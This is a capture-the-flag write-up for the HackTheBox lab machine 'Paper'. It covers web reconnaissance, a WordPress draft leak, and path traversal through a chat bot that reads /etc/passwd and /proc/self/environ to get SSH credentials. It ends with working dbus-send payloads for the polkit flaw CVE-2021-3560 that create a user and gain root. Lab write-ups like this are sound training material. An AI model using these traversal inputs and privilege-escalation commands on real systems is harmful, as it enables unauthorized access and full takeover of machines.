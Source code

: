 # HTB_Paper_writeup
Write-up of the machine "Paper" on HackTheBox. This machine include some LFI(I guess). This machine took me two days to complete and I learned some things interesting.

## Score:
**Points: 20**

## Solution:

## WEB
When we starts the machine it give us an IP address (in my case 10.10.11.143). It's a default page of an apache server. We can ran nmap, nikto to see if there's any suspicious stuff.
![nmap_nikto](nmap_nikto_log.png)

Looking at `nikto.log` we can see it captured an "Uncommon header 'x-backend-server', with contents: office.paper". We also could find this 'x-backend-server' using `whatweb` tool.
![whatweb.png](whatweb.png)

Good, now we need to add the value of that header in our `/etc/hosts` file. So that we can access the site http://office.paper.
![host file](hosts_file.png)

Acessing this site, we come across to an Wordpress blog. Going straight to the point, in the post "Feeling Alone!" we can see that nick has commented to Michael(the owner) that he sould "remove the secret content from the drafts" since they are not secure as he thinks. Using Wappalyzer extension (or just going to page source), it's possible to see that the version of wordpress is 5.2.3, which is vulnerable.

![searchsploit.png](searchsploit.png)

The exploit says that if we insert `?static=1` to a wordpress URL, we can leak its secret content. Trying it...
![static.png](static.png)

It give us a secret link to registration to a chat system. So, adding this another subdomain in the hosts file.
![hosts_chat](hosts_chat.png)

Copy and paste the link, it take us to a registration page where we can simply create an account an enter to the chat. 
![rocket_notlogged.png](rocket_notlogged.png) 
![rocket_loged](rocket_logged.png)

Here we are introduced to a bot(recyclops) which can give us some informations to us, but we are going to use only two commands: "file" and "list" (`cat` and `ls` command respectively). We can use the bot by just going to chat in direct message and type "recyclops list", and it will list the files on the present directory. But there's a vulnerability here, if we type "recyclops file ../../../etc/passwd" it'll return to us the file passwd. Great, now we just need to "leverage"!.
![etc_passwd_bot.png](passwd_bot.png)

In this part I didn't know what to do after the LFI, so just googling i found a site which tells how to escalate this. The file /proc/self/environ has some informations of environment of the process. Just type "recyclops ../../../proc/self/environ". We got it! Now we have the credentials of the user "dwight".

![proc_self](proc_self.png) 

Now we can use SSH to connect to dwight termitnal. We in! 

## Privilege escalation

Here we already have the user flag. Now we need to escalate privilege to root. 
![user.txt](user_flag.jpg)

In the user directory it has the linpeas.sh tool, but it won't be so usefull. There's a file called test.sh, that give us an clue of what we will explore. That vulnerability has an CVE -- `CVE-2021-3560` --. That script will not do, but there's a video uploaded by the github itself that explain this [CVE](https://www.youtube.com/watch?v=QZhz64yEd0g). I'll spare you the explanations of how the vulnerability works, as the video does it much better.
![head_teste](head_test.png)

We're gonna use these payloads in sequence;

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
----------------------------------------------
id boris --> verify if the user has been created
----------------------------------------------
openssl passwd -5 iaminvincible! --> create a hash for the password "iaminvincible!"
----------------------------------------------
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
```

Note that it may fails sometimes, it's normal, just persist. After run the commands above, just type `su - boris` and type the password, once loged in just type `sudo su`. And We Got It! Now submit the root flag and root the machine.
![root.txt](root_flag.jpg)

--If you have any questions about the vulnerability exploit, visit the link that I left linked. 

## References:

https://www.youtube.com/watch?v=QZhz64yEd0g

https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

https://infosecwriteups.com/leveraging-lfi-to-rce-in-a-website-with-20000-users-129050f9982b
